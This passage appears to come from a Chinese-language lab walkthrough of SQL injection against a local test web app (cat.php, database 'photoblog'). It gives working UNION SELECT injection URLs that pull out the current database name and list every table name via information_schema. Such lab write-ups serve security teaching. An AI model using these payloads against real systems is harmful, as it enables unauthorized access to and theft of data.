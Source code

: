     6. 获取当前数据库

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,database(),3,4`

        显示当前数据库：`photoblog`

        ![](img/current_database.png)

    7. 获取所有表名

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

        ![](img/tables.png)

        可看到所有表名（截图未完全展示）。

